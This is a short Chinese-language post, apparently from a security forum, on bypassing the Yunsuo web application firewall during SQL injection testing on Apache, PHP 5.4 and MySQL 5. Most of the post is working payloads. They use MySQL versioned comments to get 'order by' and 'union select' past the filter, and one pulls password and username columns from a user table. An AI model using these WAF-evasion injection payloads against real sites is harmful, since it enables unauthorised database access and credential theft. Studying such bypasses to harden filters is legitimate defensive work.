




## bypass云锁注入测试

**实验环境**
刚去云锁官网下的

Apache/2.4.23

PHP/5.4

mysql 5

**Paylaod**

`order by `拦截

`order/*!10000by*/5 `  

  

union  不拦截
select  不拦截
union select 拦截
union 各种字符 select 拦截
`union/*select*/ `不拦截

`union%20/*!10000all%20select*/%201,2,database/**/(),4,5`  

  

`union/*!10000all*//*!10000select+1,password,username*/,4,5%20from%20user`  

来源:https://www.t00ls.net/articles-55793.html   

欢迎大家投稿注册土司.